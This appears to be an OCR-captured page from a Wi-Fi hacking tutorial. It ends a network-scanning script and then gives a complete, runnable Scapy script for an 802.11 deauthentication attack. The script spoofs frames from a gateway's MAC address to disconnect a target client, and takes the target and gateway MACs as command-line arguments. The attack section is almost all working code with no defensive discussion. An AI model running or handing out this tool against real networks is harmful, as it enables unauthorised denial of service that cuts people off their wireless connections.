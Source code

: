 ```python
    print(ascii_art)

    wifi_scan()


if __name__ == '__main__':
    main()
```

This script will scan for Wi-Fi networks for 30 seconds and print out the BSSID (MAC address), SSID (network name), and channel for each detected network.

##### Deauthentication Attack
----


```python
from scapy.all import *
from scapy.layers.dot11 import Dot11Deauth, Dot11, RadioTap
from pyfiglet import figlet_format
import argparse


# Creating the deauth function

def deauth_attack(target_mac, gateway_mac, iface="wlan0mon", count=100):
    print(f'Sending {count} deauthentication packets')

    # 802.11 frame
    # addr1: Destination MAC
    # addr2: Source MAC
    # addr3: Access point MAC
    pkt = RadioTap() / Dot11(type=0, subtype=12, addr1=target_mac,
                             addr2=gateway_mac,
                             addr3=gateway_mac) / Dot11Deauth(reason=7)
    sendp(pkt, iface=iface, count=count, inter=0.1, verbose=1)


def main():
    # Setting ASCII art
    ascii_art = figlet_format('Deauh attack', font='slant')
    print(ascii_art)

    # Argument parsing
    parser = argparse.ArgumentParser(description='Simple Deauth attack')
    parser.add_argument('-m', '--mac', type=str, required=True, help='The target MAC')
    parser.add_argument('-g', '--gateway', type=str, required=True, help='The gateway MAC')
    args = parser.parse_args()

    # Calling the sending exploit function

    deauth_attack(target_mac=args.mac, gateway_mac=args.gateway)


if __name__ == '__main__':
    main()
```
